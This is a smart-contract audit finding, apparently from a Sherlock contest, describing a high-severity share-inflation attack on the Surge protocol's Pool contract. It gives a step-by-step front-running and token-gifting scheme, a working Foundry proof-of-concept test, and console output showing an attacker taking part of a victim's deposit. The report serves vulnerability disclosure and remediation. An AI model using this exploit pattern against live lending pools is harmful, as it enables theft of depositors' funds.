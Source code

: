 usmannk

high

# Attackers may steal loan tokens from pool depositors

## Summary

Attackers can take advantages of errors in accounting to steal tokens from pool depositors. If an attacker cleverly deposits some tokens and also gifts some tokens to a pool via direct transfer after the pool's deployment, they can steal tokens from the next depositor.

## Vulnerability Detail

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L105-L129

The `getCurrentState` function called by many interactions with the Surge protocol only updates the current balance on its first invocation per block. An attacker can use this to their advantage and steal tokens.

Also useful to know for this exploit is that the number of shares for a deposited token amount is calculated as:

https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204

First the attacker should wait until they see a pending initial deposit into a surge pool in the mempool.
Say an attacker, Bob, notices that Alice is about to perform an initial deposit of `1e18` wei loan tokens into a pool.

First Bob can deposit 3wei of the loan token.
State: `_loanTokenBalance=3, _currentTotalSupply=3, loanToken.balanceOf(address(pool))=3, pool.balanceOf(bob)=3, pool.balanceOf(alice)=0`

Then Bob transfers `2e18` wei directly to the pool
State: `_loanTokenBalance=2e18+3, _currentTotalSupply=3, loanToken.balanceOf(address(pool))=2e18+3, pool.balanceOf(bob)=3, pool.balanceOf(alice)=0`

Next Alice deposits her `1e18` wei. Her shares are calculated as `amount * _currentTotalSupply / _loanTokenBalance` rounded down. This leaves the state as:
State: `_loanTokenBalance=3e18+3, _currentTotalSupply=4, loanToken.balanceOf(address(pool))=3e18+3, pool.balanceOf(bob)=3, pool.balanceOf(alice)=1`

Bob can now claim the following amount:

`balanceOf[msg.sender] * (_currentTotalDebt + _loanTokenBalance) / _currentTotalSupply;`
Which is equal to
`3 * (0 + (3e18+3)) / 4;`
Or
`2250000000000000001` 

After depositing 3wei and gifting 2e18wei, Bob is able to withdraw 2.25e18+1wei. The extra was stolen from Alice.


Below is a test that demonstrates this, failing when bob manages to steal tokens from alice.
```solidity
    function testSteal() external {
        address alice = vm.addr(1);
        address bob = vm.addr(2);
        address deployer = vm.addr(3);

        //setup
        uint amount = 10e18;
        MockERC20 collateralToken = new MockERC20(amount, 18);
        MockERC20 loanToken = new MockERC20(amount, 18);
        loanToken.transfer(bob,5e18);
        loanToken.transfer(alice,5e18);

        // deploy a cool new pool
        vm.startPrank(deployer);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        vm.stopPrank();

        console.log("[initial] alice tokens", loanToken.balanceOf(alice));
        console.log("[initial] bob tokens  ", loanToken.balanceOf(bob));
        console.log("[initial] pool tokens ", loanToken.balanceOf(address(pool)));

        //bob notices in the mempool that alice is about to deposit 1e18 into the new pool
        vm.startPrank(bob);
        loanToken.approve(address(pool), type(uint256).max);
        pool.deposit(3);
        loanToken.transfer(address(pool), 2e18);
        vm.stopPrank();

        // just depositing 1e18 token in the new pool i saw
        vm.startPrank(alice);
        loanToken.approve(address(pool), type(uint256).max);
        pool.deposit(1e18);
        vm.stopPrank();

        //now bob can just withdraw his stolen tokens
        vm.startPrank(bob);
        pool.withdraw(type(uint).max);
        vm.stopPrank();

        //alice also withdraws her remaining tokens
        vm.startPrank(alice);
        pool.withdraw(type(uint).max);
        vm.stopPrank();

        console.log("[final] alice tokens", loanToken.balanceOf(alice));
        console.log("[final] bob tokens  ", loanToken.balanceOf(bob));
        console.log("[final] pool tokens ", loanToken.balanceOf(address(pool)));

        assertEq(loanToken.balanceOf(bob), 5e18);
    }
```

The console output from the test is:

>   [initial] alice tokens 5000000000000000000
>   [initial] bob tokens   5000000000000000000
>   [initial] pool tokens  0
>   [final] alice tokens 4750000000000000001
>   [final] bob tokens   5249999999999999999
>   [final] pool tokens  0
>   Error: a == b not satisfied [uint]
>     Expected: 5000000000000000000
>       Actual: 5249999999999999999


## Impact

Theft of funds from users.

## Code Snippet

## Tool used

Manual Review

## Recommendation

Account for the gifting of tokens by updating balances appropriately
